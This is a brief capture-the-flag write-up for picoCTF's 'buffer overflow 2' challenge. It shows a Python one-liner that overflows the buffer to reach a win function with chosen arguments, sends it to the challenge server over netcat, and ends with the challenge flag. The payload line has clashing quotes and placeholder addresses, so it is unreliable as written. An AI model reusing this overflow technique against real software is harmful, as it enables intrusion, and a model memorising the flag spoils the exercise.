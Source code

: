 Control the return address and arguments

This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/350/vuln)?

You can view source [here](https://artifacts.picoctf.net/c/350/vuln.c). And connect with it using `nc saturn.picoctf.net 58854`

### Reference

https://www.nullhardware.com/reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-2/

The site referenced explains everything that you need to know about this challenge. To solve it, just paste the same command 
mentioned on the site, after making sure that you understood everything that was explained in there, by replacing the win address with yours
as well as the arguments. The command should look like this:

```
python -c "print("U"*108 + "U"*4 + "win_address" + "\x55\x55\x55\x55" + "4_byte_arg1" + "4_bytes_arg2")"
```
To get the flag just put this command in a file and then connect to server using netcat:

`nc saturn.picoctf.net 58854 < file`

`picoCTF{argum3nt5_4_d4yZ_920d6844}`
